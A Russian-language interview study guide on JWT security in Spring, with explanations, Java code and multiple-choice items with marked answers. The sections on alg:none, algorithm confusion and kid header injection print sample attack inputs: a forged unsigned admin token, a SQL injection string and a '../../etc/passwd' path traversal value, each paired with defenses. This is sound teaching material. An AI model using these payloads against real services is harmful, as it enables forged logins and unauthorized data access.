// Проверка при запросе
public boolean isRevoked(String jti) {
    return Boolean.TRUE.equals(redisTemplate.hasKey("revoked:" + jti));
}
```

> [!mcq]
> - [ ] Claim `iat` (Issued At) используется как уникальный идентификатор токена для blacklisting: его значение заносится в Redis с TTL = exp токена. | `iat` — это timestamp выдачи токена, не уникальный идентификатор. Два токена, выданных в одну секунду, имели бы одинаковый iat. Для уникальности используется именно `jti` (JWT ID).
> - [x] Claim `jti` (JWT ID) используется как уникальный идентификатор токена для blacklisting: при отзыве значение `jti` сохраняется в Redis с TTL равным оставшемуся времени жизни токена (exp − now). | Верный подход. TTL в Redis = exp − now гарантирует автоматическую очистку: после истечения срока токена его всё равно нельзя будет использовать, хранить jti дольше бессмысленно. Это единственный stateful-элемент в иначе stateless архитектуре.
> - [ ] Claim `sub` (Subject) используется как уникальный идентификатор токена для blacklisting: userId заносится в Redis для блокировки всех токенов пользователя. | `sub` — идентификатор пользователя, не уникальный идентификатор токена. Блокировка по `sub` отзовёт ВСЕ токены пользователя, что является другим механизмом (token versioning), а не blacklisting отдельного токена.
> - [ ] Claim `aud` (Audience) используется как уникальный идентификатор токена для blacklisting: идентификатор целевого сервиса заносится в Redis. | `aud` — идентификатор целевого сервиса (Resource Server), одинаковый для множества токенов. Для уникальности каждого токена служит только `jti`, генерируемый обычно через UUID.

---

## Q22. (!) JWT vs Session-based аутентификация — сравнение и trade-offs

| Критерий | JWT (Stateless) | Session (Stateful) |
|----------|-----------------|-------------------|
| **Состояние** | Нет на сервере | Хранится в БД/Redis |
| **Масштабирование** | Горизонтальное легко | Нужен sticky sessions или shared store |
| **Отзыв** | Сложен без blacklist | Мгновенный (удалить сессию) |
| **Размер** | Крупнее (Base64 claims) | Маленький ID в cookie |
| **Нагрузка на БД** | Низкая (stateless) | Высокая (каждый запрос) |
| **Применение** | API, микросервисы, мобильные | Web-приложения, монолит |
| **Безопасность** | Payload виден | Данные только на сервере |

**Вывод:** JWT — не всегда лучше. Для традиционных веб-приложений сессии проще и безопаснее (мгновенный отзыв, меньше attack surface). JWT оптимален для stateless API и межсервисного взаимодействия.

> [!mcq]
> - [x] JWT stateless и не требует хранения на сервере, что упрощает горизонтальное масштабирование; сессии stateful и поддерживают мгновенный отзыв, но требуют shared store (Redis); JWT предпочтителен для API и микросервисов, сессии — для традиционных веб-приложений. | Верное сравнение с указанием контекста применения. JWT устраняет проблему sticky sessions, но усложняет отзыв. Сессии просты в управлении (удалил запись — пользователь вышел), но требуют синхронизированного хранилища.
> - [ ] JWT stateless и не требует хранения на сервере; сессии stateful и требуют shared store; JWT предпочтителен для веб-приложений с частыми logout, сессии — для API. | Рекомендации перепутаны: JWT сложно мгновенно отозвать (нет смысла использовать там, где нужен быстрый logout), а сессии для API создают проблему масштабирования. Всё наоборот.
> - [ ] JWT stateless и не требует хранения на сервере; сессии stateful и поддерживают мгновенный отзыв; JWT всегда безопаснее сессий, так как payload виден клиенту и не содержит серверных секретов. | Видимость payload — это не преимущество безопасности JWT, а ограничение (нельзя хранить sensitive данные). Сессии безопаснее в аспекте отзыва и attack surface (данные только на сервере).
> - [ ] JWT stateless и не требует хранения на сервере; сессии stateful и требуют shared store; оба подхода одинаково хорошо масштабируются горизонтально при использовании Redis. | JWT горизонтально масштабируется без каких-либо дополнительных инфраструктурных зависимостей — каждый сервер проверяет подпись независимо. Сессии с Redis — это distributed stateful, что имеет другую модель отказов и latency.

---

## Q23. Является ли JWT stateless?

**Да, но с оговорками.** Стандартный JWT stateless — сервер не хранит информацию о выданных токенах и верифицирует подпись самостоятельно.

**Нарушают stateless-ность:**
- Blacklist токенов в Redis/БД
- Проверка версии токена (`token_version` в БД)
- Token Introspection

**Преимущества stateless JWT:**
- Не нужен центральный store сессий
- Горизонтальное масштабирование без синхронизации
- Подходит для микросервисов (каждый верифицирует публичным ключом)

**Риск:** если нужен мгновенный отзыв — придётся пожертвовать stateless-ностью.

> [!mcq]
> - [ ] Blacklist токенов в Redis сохраняет stateless-природу JWT: Redis — это распределённое хранилище ключей, не связанное с серверной сессией. | Любое серверное хранилище, к которому обращается каждый запрос для валидации, делает систему stateful. Неважно, что это Redis, БД или файл — stateless означает «нет проверок внешнего состояния», а blacklist добавляет такую проверку.
> - [ ] Token Introspection сохраняет stateless-природу JWT, поскольку вызов к Authorization Server делается только при подозрении на отзыв, а не на каждом запросе. | Token Introspection по RFC 7662 предполагает запрос к AS для проверки валидности, что нарушает stateless: RS зависит от внешнего состояния AS. В реальности introspection часто делается на каждый запрос (с кэшированием).
> - [x] Blacklist токенов, версионирование (token_version в БД) и Token Introspection нарушают stateless-природу JWT: каждая проверка требует обращения к внешнему хранилищу состояния. | Верный список исключений. Чистый JWT-верификация не требует state (проверка подписи + exp локально). Как только добавляется проверка «отозван ли?» — появляется зависимость от хранилища, что является stateful-компонентом.
> - [ ] Проверка подписи JWT публичным ключом через JWKS endpoint нарушает stateless-природу, так как требует сетевого запроса к Authorization Server. | JWKS кэшируется на RS и обновляется редко (по rotation или на неизвестный kid). Это не per-request зависимость от состояния токенов, а инициализация ключей. Stateless в JWT относится к отсутствию per-token state, а не к отсутствию кэша ключей.

---

## Q24. (!) Атака «алгоритм none» — в чём суть и как защититься?

**Суть атаки:** RFC 7518 определяет алгоритм `none`, означающий «без подписи». Если сервер принимает `alg: none` из заголовка токена — злоумышленник может создать произвольный токен без подписи:

```json
// Вредоносный header
{
  "alg": "none",
  "typ": "JWT"
}
// Вредоносный payload
{
  "sub": "admin",
  "roles": ["ROLE_ADMIN"]
}
// Signature — пустая строка
// Результирующий JWT: header.payload.
```

Злоумышленник может стать администратором без знания секрета!

**Защита:**
```java
// Явно указывать ожидаемые алгоритмы
Jwts.parserBuilder()
    .setSigningKey(key)
    // JJWT автоматически отклоняет "none" если указан ключ
    .build();

// Spring Security — NimbusJwtDecoder по умолчанию не принимает "none"
// Для ручного парсинга — всегда whitelist алгоритмов:
JWTProcessor<SecurityContext> processor = new DefaultJWTProcessor<>();
processor.setJWSKeySelector(new JWSAlgorithmFamilyKeySelector<>(
    JWSAlgorithm.Family.RSA,
    keySource
));
```

**Никогда** не принимать алгоритм из самого токена — только из конфигурации сервера.

> [!mcq]
> - [ ] Атака «alg: none» использует то, что алгоритм none не определён в RFC 7518; злоумышленник создаёт токен с несуществующим алгоритмом, и уязвимые библиотеки пропускают его. | Алгоритм none определён в RFC 7518 и означает «без подписи» — именно это и является вектором атаки. Проблема не в несуществующем алгоритме, а в том, что некоторые библиотеки принимают его без ограничений.
> - [ ] Атака «alg: none» использует алгоритм none из RFC 7518; защита — проверять, что поле exp в токене задано и не истекло, это блокирует токены без подписи. | Проверка exp не защищает от alg:none: злоумышленник может установить любой exp в своём токене без подписи. Защита — whitelist разрешённых алгоритмов на сервере, не принимать none.
> - [ ] Атака «alg: none» использует алгоритм none из RFC 7518; защита — всегда проверять iss (Issuer), так как токены без подписи не содержат корректного iss. | iss не защищает: злоумышленник может поставить любой iss в unsigned-токене. Только whitelist алгоритмов на стороне сервера (не из заголовка токена) блокирует эту атаку.
> - [x] Атака «alg: none» использует алгоритм none из RFC 7518 (без подписи); злоумышленник создаёт токен с произвольными claims и пустой подписью; защита — whitelist допустимых алгоритмов на сервере, никогда не принимать alg из заголовка токена. | Корень проблемы: если сервер доверяет полю alg из заголовка токена, злоумышленник просто указывает none и подпись не проверяется. Зрелые библиотеки (JJWT, Nimbus) требуют явного указания ожидаемого алгоритма при конфигурации.

---

## Q25. (!) Что такое Algorithm Confusion Attack (RS256 → HS256)?

**Algorithm Confusion Attack** — эксплуатирует неправильную реализацию верификации JWT:

**Сценарий:**
1. Сервер использует RS256 и публикует публичный ключ (доступен всем)
2. Злоумышленник меняет `alg` в header с `RS256` на `HS256`
3. Создаёт подпись с использованием **публичного RSA ключа как HMAC-секрета**
4. Уязвимая библиотека верифицирует подпись: `HMAC(payload, publicKey)` — успешно!
5. Злоумышленник получает произвольный токен



**Защита:**
```java
// Никогда не доверять alg из заголовка токена
// Всегда использовать whitelist на стороне сервера:

// Spring Security OAuth2 Resource Server — безопасно по умолчанию
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withPublicKey(rsaPublicKey)
        .build();
    // Принимает только RS256
    return decoder;
}

// JJWT — explicit algorithm
Jwts.parserBuilder()
    .setSigningKey(rsaPublicKey)  // только RSA verify
    .build()
    .parseClaimsJws(token);
```

> [!mcq]
> - [ ] Algorithm Confusion Attack (RS256→HS256) эксплуатирует то, что публичный RSA-ключ секретен; злоумышленник находит его через брутфорс и использует как HMAC-секрет. | Публичный RSA-ключ открытый по определению — он публикуется в JWKS endpoint. Суть атаки другая: уязвимая библиотека позволяет злоумышленнику указать HS256 вместо RS256, и публичный ключ становится известным «секретом» для HMAC.
> - [x] Algorithm Confusion Attack (RS256→HS256) эксплуатирует то, что публичный RSA-ключ открытый: злоумышленник меняет alg с RS256 на HS256 и подписывает токен публичным ключом как HMAC-секретом; уязвимая библиотека верифицирует HS256(payload, publicKey) успешно. | Точное описание атаки. Публичный ключ доступен через JWKS, злоумышленник использует его как HMAC-секрет. Защита: сервер должен игнорировать alg из токена и использовать только whitelist из конфигурации.
> - [ ] Algorithm Confusion Attack (RS256→HS256) эксплуатирует то, что публичный RSA-ключ открытый; злоумышленник подделывает подпись RS256, не зная приватного ключа, используя слабость алгоритма RSA при коротких ключах. | Это описание атаки на слабые RSA-ключи (factoring), что не является Algorithm Confusion. Algorithm Confusion не ломает RSA — она переключает алгоритм верификации, обходя проверку подписи.
> - [ ] Algorithm Confusion Attack (RS256→HS256) эксплуатирует то, что публичный RSA-ключ открытый; злоумышленник меняет alg с RS256 на HS256, но атака работает только если сервер поддерживает оба алгоритма одновременно. | Атака работает именно потому, что уязвимая библиотека использует alg из заголовка токена без whitelist. Если сервер сконфигурирован только на RS256, он не будет принимать HS256 независимо от наличия поддержки алгоритма в коде.

---

## Q26. Какие ещё уязвимости JWT существуют?

| Уязвимость | Описание | Защита |
|------------|----------|--------|
| **Weak Secret** | Короткий/предсказуемый HMAC-секрет — поддаётся brute-force | Минимум 256 бит случайного секрета |
| **Отсутствие exp валидации** | Токен никогда не истекает для сервера | Всегда проверять `exp` |
| **Отсутствие aud валидации** | Токен для одного сервиса принимается другим | Проверять `aud` |
| **Sensitive Data в Payload** | Пароли, PAN, SSN в незашифрованном payload | Только non-sensitive данные или JWE |
| **Replay Attack** | Перехваченный валидный токен используется повторно | Короткий TTL + `jti` blacklist |
| **Kid Header Injection** | Манипуляция `kid` для выбора вредоносного ключа | Валидировать `kid` против whitelist |

> [!mcq]
> - [x] Уязвимость Weak Secret возникает когда HMAC-секрет для HS256 короткий или предсказуемый: защита — минимум 256 бит случайного секрета, генерируемого криптографически стойким RNG. | Верно. HS256 использует HMAC-SHA256, эффективная стойкость ограничена размером секрета. Короткий или словарный секрет подбирается brute-force offline (имея JWT, пробуют секреты до совпадения подписи). 256 бит из CSPRNG — минимальная безопасность.
> - [ ] Уязвимость Weak Secret возникает когда HMAC-секрет для HS256 слишком длинный: защита — ограничить длину секрета до 128 бит для производительности. | Всё наоборот: длинный секрет — это хорошо для безопасности. Производительность HMAC практически не зависит от длины ключа до разумных значений. Короткий секрет (<128 бит) уязвим для brute-force.
> - [ ] Уязвимость Weak Secret относится только к RS256: короткий RSA-ключ (1024 бит) может быть факторизован, что позволяет подделывать подписи. | Weak Secret в контексте JWT — это про HMAC (HS256). У RS256 аналогичная проблема есть (короткий RSA-ключ), но это отдельная категория «Weak RSA Key». Здесь речь об HMAC-секрете, который часто берут из строки конфига.
> - [ ] Уязвимость Weak Secret решается заменой HS256 на none-алгоритм: отсутствие подписи исключает проблему слабого секрета. | Замена на none — это сама по себе уязвимость (alg:none attack). Без подписи токен может подделать кто угодно. Правильное решение — либо удлинить секрет, либо перейти на асимметричный алгоритм (RS256/ES256).

---

## Q27. Что такое JWT Header Injection?

**`kid` (Key ID) Header Injection** — атака на реализации, которые динамически загружают ключи по значению `kid` из заголовка JWT.

**SQL Injection вариант:**
```json
{
  "alg": "HS256",
  "kid": "' UNION SELECT 'attacker-secret' --"
}
```
Если код делает `SELECT key FROM keys WHERE id = '{kid}'` — SQL-инъекция позволяет указать произвольный секрет.

**Path Traversal вариант:**
```json
{
  "kid": "../../etc/passwd"
}
```

**Защита:**
- Никогда не использовать `kid` напрямую в SQL-запросе
- Whitelist допустимых `kid` значений
- Параметризованные запросы
- UUID формат для `kid`

> [!mcq]
> - [ ] JWT Header Injection — атака на поле `alg`: злоумышленник меняет `alg` на `none`, что позволяет подделать токен без секрета. | Это описание атаки «alg: none», отдельная категория. Header Injection в узком смысле — это именно манипуляция `kid` для выбора произвольного ключа (через SQL injection, path traversal, URL injection).
> - [x] JWT Header Injection — атака на поле `kid`: злоумышленник инжектит вредоносное значение (SQL injection, path traversal), заставляя сервер загрузить произвольный ключ из БД, файла или внешнего URL. | Верно. Если сервер делает что-то вроде `SELECT key FROM keys WHERE id = '{kid}'` или `readFile('/keys/' + kid)`, injection в `kid` позволяет либо подставить известный секрет, либо прочитать файл типа `/etc/passwd`.
> - [ ] JWT Header Injection — атака на поле `typ`: злоумышленник меняет `typ` с `JWT` на `JWS`, что заставляет сервер применить слабый алгоритм верификации. | `typ` — декларативное поле, указывающее медиа-тип токена. Смена `typ` не меняет алгоритм верификации и не является вектором атаки. Header Injection в JWT — это про `kid`.
> - [ ] JWT Header Injection — атака на поле `cty`: злоумышленник меняет `cty` на `text/html`, что позволяет выполнить XSS при рендеринге payload. | `cty` (Content Type) в JWT-заголовке указывает тип вложенного payload (обычно используется в Nested JWT, где `cty: JWT`). Это не вектор XSS — payload не рендерится как HTML в браузере.

---

## Q28. (!) Как настроить Spring Security Resource Server с JWT?

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/public/**").permitAll()
                .anyRequest().authenticated()
            )
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt
                    .decoder(jwtDecoder())
                    .jwtAuthenticationConverter(jwtAuthenticationConverter())
                )
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.STATELESS)
            )
            .csrf(AbstractHttpConfigurer::disable);  // stateless API
        return http.build();
    }

    @Bean
    public JwtDecoder jwtDecoder() {
        // Вариант 1: JWKS URI (для OAuth2/OIDC)
        return NimbusJwtDecoder
            .withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
            .build();

        // Вариант 2: Публичный ключ (для собственного AS)
        // return NimbusJwtDecoder.withPublicKey(rsaPublicKey).build();

        // Вариант 3: Секрет (для HS256)
        // return NimbusJwtDecoder.withSecretKey(secretKey).build();
    }

    @Bean
    public JwtAuthenticationConverter jwtAuthenticationConverter() {
        JwtGrantedAuthoritiesConverter authoritiesConverter =
            new JwtGrantedAuthoritiesConverter();
        authoritiesConverter.setAuthorityPrefix("ROLE_");
        authoritiesConverter.setAuthoritiesClaimName("roles");

        JwtAuthenticationConverter converter = new JwtAuthenticationConverter();
        converter.setJwtGrantedAuthoritiesConverter(authoritiesConverter);
        return converter;
    }
}
```

Конфигурация через `application.yml`:
```yaml
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          jwk-set-uri: https://auth.example.com/.well-known/jwks.json
          # или
          issuer-uri: https://auth.example.com
```

> [!mcq]
> - [ ] Для Resource Server в Spring Security достаточно добавить зависимость `spring-boot-starter-oauth2-client` — Spring автоматически настроит JWT-валидацию при запросах к защищённым эндпоинтам. | Нужна зависимость `spring-boot-starter-oauth2-resource-server`, а не `oauth2-client`. Client starter предназначен для реализации OAuth2 Client (Login via OAuth2), а не Resource Server (защита API через Bearer token).
> - [x] Для Resource Server в Spring Security нужна зависимость `spring-boot-starter-oauth2-resource-server` и `.oauth2ResourceServer(oauth2 -> oauth2.jwt(...))` в SecurityFilterChain; session policy — STATELESS, CSRF — disabled для API. | Верная конфигурация. Resource Server — это сервис, валидирующий Bearer-токены, предоставленные клиентом. STATELESS session исключает создание HttpSession, CSRF не нужен при Authorization header (не уязвим к CSRF).
> - [ ] Для Resource Server в Spring Security нужна зависимость `spring-boot-starter-oauth2-authorization-server` и `.oauth2AuthorizationServer(...)` в SecurityFilterChain; session policy — STATEFUL для аудита. | `authorization-server` — это starter для реализации собственного AS (выдача токенов), а не для RS (проверка токенов). STATEFUL с сессиями противоречит stateless-модели OAuth2 Resource Server.
> - [ ] Для Resource Server в Spring Security нужна зависимость `spring-security-jwt` и `.jwt(jwt -> jwt.secret(...))` в SecurityFilterChain с явным HMAC-секретом для всех алгоритмов. | `spring-security-jwt` — устаревший артефакт из Spring Security OAuth (legacy). Современный подход: spring-boot-starter-oauth2-resource-server с NimbusJwtDecoder. Явный секрет подходит только для HS*, не для RS*/ES*.

---

## Q29. Что такое JwtDecoder и как его настроить?

`JwtDecoder` — Spring Security интерфейс для декодирования и валидации JWT. Основная реализация — `NimbusJwtDecoder` (использует библиотеку Nimbus JOSE+JWT).

```java
// Настройка кастомной валидации (дополнительные claims)
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withJwkSetUri(jwkSetUri)
        .build();

    // Добавить кастомные валидаторы
    OAuth2TokenValidator<Jwt> audienceValidator = token -> {
        if (token.getAudience().contains("my-api")) {
            return OAuth2TokenValidatorResult.success();
        }
        return OAuth2TokenValidatorResult.failure(
            new OAuth2Error("invalid_token", "Wrong audience", null)
        );
    };

    OAuth2TokenValidator<Jwt> withIssuer =
        JwtValidators.createDefaultWithIssuer("https://auth.example.com");

    OAuth2TokenValidator<Jwt> withAudience =
        new DelegatingOAuth2TokenValidator<>(withIssuer, audienceValidator);

    decoder.setJwtValidator(withAudience);
    return decoder;
}
```

> [!mcq]
> - [ ] `JwtDecoder` — Spring Security интерфейс для генерации JWT, реализация `NimbusJwtEncoder` создаёт новые токены в Authorization Server. | `JwtDecoder` — для декодирования и валидации (проверки), не генерации. Для генерации используется `JwtEncoder` (`NimbusJwtEncoder`). Это зеркальные интерфейсы Spring Security для противоположных операций.
> - [x] `JwtDecoder` — Spring Security интерфейс для декодирования и валидации JWT, основная реализация `NimbusJwtDecoder` поддерживает JWKS URI, публичный ключ и симметричный секрет. | Верно. NimbusJwtDecoder — обёртка над Nimbus JOSE+JWT, предоставляет три варианта настройки: `withJwkSetUri` (OAuth2/OIDC), `withPublicKey` (свой AS), `withSecretKey` (HS*). Позволяет добавлять кастомные валидаторы через `setJwtValidator`.
> - [ ] `JwtDecoder` — Spring Security интерфейс для шифрования payload JWT, реализация `NimbusJweDecoder` обеспечивает конфиденциальность токенов. | Шифрование payload — это JWE, не JWS. В Spring Security шифрованием занимается другой интерфейс (JwtDecoderFactory для OIDC client с encrypted ID Token), а не JwtDecoder. Базовая функция JwtDecoder — проверка подписи и валидация claims.
> - [ ] `JwtDecoder` — Spring Security интерфейс для отзыва JWT, реализация `NimbusJwtDecoder` обеспечивает blacklist через Redis по умолчанию. | JwtDecoder не занимается отзывом токенов. Для отзыва нужны отдельные механизмы (blacklist, introspection). JwtDecoder только декодирует и валидирует локально (подпись, exp, iss, aud) без knowledge о состоянии отзыва.

---

## Q30. Как маппировать authorities из JWT claims в Spring Security?

По умолчанию Spring Security ищет claim `scope` или `scp` и создаёт authorities с префиксом `SCOPE_`. Для кастомного маппинга:

```java
@Bean
public JwtAuthenticationConverter jwtAuthenticationConverter() {
    // Кастомный конвертер для ролей
    JwtGrantedAuthoritiesConverter converter = new JwtGrantedAuthoritiesConverter();
    converter.setAuthoritiesClaimName("roles");     // claim с ролями
    converter.setAuthorityPrefix("ROLE_");           // префикс

    JwtAuthenticationConverter jwtConverter = new JwtAuthenticationConverter();
    jwtConverter.setJwtGrantedAuthoritiesConverter(converter);
    return jwtConverter;
}

// Использование в контроллере
@GetMapping("/admin")
@PreAuthorize("hasRole('ADMIN')")
public String adminEndpoint(Authentication auth) {
    // auth.getAuthorities() содержит ROLE_ADMIN, ROLE_USER и т.д.
    return "admin content";
}
```

Для сложного маппинга (вложенные claims, несколько источников):
```java
converter.setJwtGrantedAuthoritiesConverter(jwt -> {
    List<String> roles = jwt.getClaimAsStringList("realm_access.roles");
    List<String> scopes = jwt.getClaimAsStringList("scope");
    // объединить и конвертировать в GrantedAuthority
});
```

> [!mcq]
> - [ ] По умолчанию Spring Security ищет claim `roles` в JWT и создаёт authorities с префиксом `ROLE_` (например, `ROLE_ADMIN`); для кастомного claim нужен `JwtAuthenticationConverter`. | По умолчанию Spring Security ищет `scope` или `scp` и создаёт authorities с префиксом `SCOPE_`. Для `roles` с префиксом `ROLE_` нужна явная конфигурация через `JwtGrantedAuthoritiesConverter`.
> - [x] По умолчанию Spring Security ищет claim `scope`/`scp` в JWT и создаёт authorities с префиксом `SCOPE_` (например, `SCOPE_read`); для маппинга других claims (например, `roles`) нужен `JwtGrantedAuthoritiesConverter`. | Верно. Это поведение задано в `JwtGrantedAuthoritiesConverter` по умолчанию. Для кастомного маппинга создают экземпляр конвертера с `setAuthoritiesClaimName("roles")` и `setAuthorityPrefix("ROLE_")`.
> - [ ] По умолчанию Spring Security ищет claim `permissions` в JWT и создаёт authorities с префиксом `PERM_`; формат рекомендован OAuth 2.0 spec для Resource Server. | OAuth 2.0 spec не стандартизирует `permissions` claim; он рекомендует `scope` (RFC 6749) — это и используется Spring Security по умолчанию с префиксом `SCOPE_`, а не `PERM_`.
> - [ ] По умолчанию Spring Security ищет claim `authorities` в JWT и создаёт authorities без префикса (как есть); это соответствует convention Spring Security Core. | Spring Security Core использует префикс `ROLE_` для hasRole() и goes без префикса для hasAuthority(). В OAuth2 Resource Server дефолт другой: `scope` → `SCOPE_`. Claim `authorities` не является дефолтным источником.

---

## Q31. Как генерировать JWT в Spring Boot приложении?

```java
// Зависимость: implementation 'io.jsonwebtoken:jjwt-api:0.12.3'

@Service
public class JwtTokenService {

    @Value("${jwt.secret}")
    private String secret;

    @Value("${jwt.access-token-expiration:900}")  // 15 минут
    private long accessTokenExpiration;

    private SecretKey getSigningKey() {
        return Keys.hmacShaKeyFor(
            Decoders.BASE64.decode(secret)
        );
    }

    public String generateAccessToken(String userId, List<String> roles) {
        Instant now = Instant.now();
        return Jwts.builder()
            .subject(userId)
            .issuer("https://my-app.example.com")
            .audience().add("my-api").and()
            .issuedAt(Date.from(now))
            .expiration(Date.from(now.plusSeconds(accessTokenExpiration)))
            .id(UUID.randomUUID().toString())  // jti
            .claim("roles", roles)
            .signWith(getSigningKey())
            .compact();
    }

    public Claims validateAndParse(String token) {
        return Jwts.parser()
            .verifyWith(getSigningKey())
            .build()
            .parseSignedClaims(token)
            .getPayload();
    }
}
```

> [!mcq]
> - [x] Для генерации JWT в Spring Boot используется JJWT: `Jwts.builder().subject(userId).issuer(...).expiration(...).signWith(key).compact()` — fluent API создаёт подписанный токен. | Верно. JJWT (io.jsonwebtoken) — наиболее популярная библиотека для JWT в Java с fluent-API. `compact()` возвращает сериализованную строку `header.payload.signature`. Ключ должен быть `SecretKey` (HMAC) или `PrivateKey` (RSA/ECDSA).
> - [ ] Для генерации JWT в Spring Boot используется JJWT: `Jwts.decoder().subject(userId).expiration(...).verifyWith(key).parse()` — fluent API создаёт подписанный токен. | `Jwts.decoder()/parser()` — это API для парсинга и валидации существующих токенов, а не генерации. Для создания используется `Jwts.builder()` с методом `compact()`.
> - [ ] Для генерации JWT в Spring Boot используется JJWT: `Jwts.verifier().subject(userId).expiration(...).sign(key).build()` — метод `verifier()` строит токен, `build()` сериализует. | Метода `Jwts.verifier()` не существует в JJWT API. Для генерации: `Jwts.builder()`. Кроме того, результат сериализации даёт `compact()`, а `build()` — метод парсера.
> - [ ] Для генерации JWT в Spring Boot используется JJWT: `Jwts.claims().put("sub", userId).put("exp", ...).encrypt(key).serialize()` — метод `encrypt()` подписывает токен. | Метод `encrypt()` у builder не существует в стандартном JJWT (есть отдельный JWE API). Подпись делает `signWith()`. Сериализация — через `compact()`. Для JWE (шифрование) — `Jwts.builder().encryptWith()`.

---

## Q32. Как тестировать JWT-защищённые эндпоинты в Spring?

```java
@SpringBootTest
@AutoConfigureMockMvc
class SecuredControllerTest {

    @Autowired
    private MockMvc mockMvc;

    // Вариант 1: @WithMockUser для unit-тестов
    @Test
    @WithMockUser(roles = "ADMIN")
    void adminEndpoint_withAdminRole_returns200() throws Exception {
        mockMvc.perform(get("/api/admin"))
            .andExpect(status().isOk());
    }

    // Вариант 2: Mock JwtDecoder (для Resource Server)
    @MockBean
    private JwtDecoder jwtDecoder;

    @Test
    void securedEndpoint_withValidJwt_returns200() throws Exception {
        Jwt jwt = Jwt.withTokenValue("test-token")
            .header("alg", "none")
            .claim("sub", "user123")
            .claim("roles", List.of("USER"))
            .issuedAt(Instant.now())
            .expiresAt(Instant.now().plusSeconds(3600))
            .build();

        when(jwtDecoder.decode(anyString())).thenReturn(jwt);

        mockMvc.perform(get("/api/data")
                .header("Authorization", "Bearer test-token"))
            .andExpect(status().isOk());
    }
}
```

> [!mcq]
> - [ ] Для тестирования JWT-защищённых эндпоинтов в Spring применяется аннотация `@WithMockJwt(roles = "ADMIN")` на тестовом методе, которая автоматически создаёт валидный JWT и помещает в SecurityContext. | Стандартной аннотации `@WithMockJwt` в Spring Security нет. Есть `@WithMockUser` (для SecurityContext с UserDetails) и `SecurityMockMvcRequestPostProcessors.jwt()` (для RequestBuilder с Jwt-authentication).
> - [x] Для тестирования JWT-защищённых эндпоинтов в Spring применяется `@WithMockUser(roles = "ADMIN")` для unit-тестов или `@MockBean JwtDecoder` с подстановкой `Jwt.withTokenValue(...)` для тестов Resource Server. | Верные подходы. `@WithMockUser` — простой способ для контроллерных тестов без JWT-специфики. MockBean с JwtDecoder — полноценный тест Resource Server pipeline с настоящим Jwt-объектом и кастомными claims.
> - [ ] Для тестирования JWT-защищённых эндпоинтов в Spring применяется `@AutoConfigureJwt(token = "valid")` — Spring автоматически инжектирует валидный токен в MockMvc. | Аннотации `@AutoConfigureJwt` в Spring Boot нет. Для автоматической настройки JWT в тестах используется комбинация `@SpringBootTest` + `@AutoConfigureMockMvc` + RequestPostProcessor `jwt()` из SecurityMockMvcRequestPostProcessors.
> - [ ] Для тестирования JWT-защищённых эндпоинтов в Spring применяется `@TestJwtContext(claims = "...")` — рекомендованный способ для интеграционных тестов в Spring Security 6. | Аннотация `@TestJwtContext` не существует в Spring Security. В Spring Security 6 для JWT-тестов рекомендуется `SecurityMockMvcRequestPostProcessors.jwt().jwt(builder -> builder.claim("roles", List.of("USER")))`.

---

## Q33. (!) Какую роль играет JWT в OpenID Connect?

**OpenID Connect (OIDC)** — протокол идентификации поверх OAuth2, использует JWT как основной формат для **ID Token**.



**ID Token** — JWT, содержащий информацию об аутентификации пользователя:
```json
{
  "iss": "https://accounts.google.com",
  "sub": "1234567890",
  "aud": "my-client-id",
  "exp": 1700003600,
  "iat": 1700000000,
  "auth_time": 1700000000,
  "name": "John Doe",
  "email": "john@example.com",
  "picture": "https://...",
  "nonce": "random-nonce"  // защита от replay attacks
}
```

**Важные отличия:**
- ID Token предназначен **для клиента** (читать и доверять содержимому)
- Access Token предназначен **для Resource Server** (использовать для доступа к ресурсам)
- ID Token нельзя использовать как Access Token!

> [!mcq]
> - [ ] В OIDC JWT используется как формат Access Token, который содержит информацию об аутентификации пользователя (name, email); ID Token — опциональный механизм для обратной совместимости с SAML. | ID Token — не опциональный механизм обратной совместимости, а ключевой артефакт OIDC, обязательный при запросе scope=openid. Именно ID Token содержит информацию об аутентификации пользователя для клиента.
> - [ ] В OIDC JWT используется как формат ID Token (данные об аутентификации пользователя, предназначен для Resource Server) и Access Token (данные о разрешениях, предназначен для клиента). | Потребители перепутаны: ID Token предназначен для клиентского приложения (кто вошёл), а Access Token — для Resource Server (что разрешено). Отправлять ID Token в API как Access Token — нарушение OIDC.
> - [x] В OIDC JWT используется как формат ID Token (данные об аутентификации пользователя: sub, name, email, nonce; предназначен для клиента) и как формат Access Token (права доступа для Resource Server); nonce в ID Token защищает от replay-атак. | Верное описание ролей JWT в OIDC. Ключевой момент: ID Token читает клиент, Access Token — Resource Server. nonce связывает ID Token с конкретным запросом аутентификации, предотвращая повторное использование перехваченного токена.
> - [ ] В OIDC JWT используется как формат ID Token (данные об аутентификации пользователя; предназначен для клиента); Access Token всегда opaque в OIDC, так как его содержимое не стандартизировано спецификацией. | Access Token в OIDC не обязан быть opaque — многие реализации (Keycloak, Spring Authorization Server) используют JWT как формат Access Token. OIDC стандартизирует только ID Token; формат Access Token — на усмотрение провайдера.

---

## Q34. Что такое ID Token и чем он отличается от Access Token?

| Критерий | ID Token | Access Token |
|----------|----------|-------------|
| **Назначение** | Идентификация пользователя | Доступ к ресурсам |
| **Потребитель** | Client Application | Resource Server |
| **Формат** | Всегда JWT (OIDC) | JWT или Opaque |
| **Claims** | Информация о пользователе (`name`, `email`) | Scopes, permissions |
| **Валидация** | Клиентом (проверка `aud` = client_id) | Resource Server |
| **Отправка API** | Никогда | В каждом запросе |

**Ошибка:** отправлять ID Token в API как Access Token — нарушение OIDC и security-риск.

> [!mcq]
> - [ ] ID Token потребляется Resource Server для авторизации доступа к API; его `aud` содержит идентификатор Resource Server. | Потребитель ID Token — клиентское приложение, а не Resource Server. `aud` ID Token содержит `client_id`, а не идентификатор RS. Отправлять ID Token в API — ошибка.
